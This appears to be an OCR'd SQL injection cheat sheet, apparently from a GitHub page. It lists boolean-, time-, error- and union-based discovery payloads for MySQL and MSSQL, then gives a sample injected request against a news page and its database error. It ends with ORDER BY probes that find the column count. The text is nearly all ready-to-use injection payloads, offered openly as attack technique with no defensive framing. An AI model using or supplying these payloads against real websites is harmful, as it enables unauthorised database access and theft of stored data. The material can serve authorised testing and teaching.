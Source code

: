 **Boolean Based Discovery**

```
XXXXX and 1=1--+
XXXXX and 1=2--+

XXXXX and 1/2=1/2--+
XXXXX and 1/2=1/3--+

XXXXX and 1 like 1--+
XXXXX and 1 like 2--+
```

**Time Based Discovery**

Mysql

```
and sleep(10)--+

```

MSSQL

```
and waitfor delay "00:00:10"--+

```

**Error Based Discovery**

Request:

```
show_news.aspx?news_id=2'

```

Response:

```
 Unclosed quotation mark after the character string ''.

```

**Union Based Discovery Payloads**

- `'`
- `"`
- `\`

**Union Based Exploitation**

**Step 1: Current table column count**

- show_news?news_id=2' order by 30--+
- show_news?news_id=2' order by 15--+
- show_news?news_id=2' order by 7--+
- show_news?news_id=2' order by 6--+

**Found: `6 columns`**
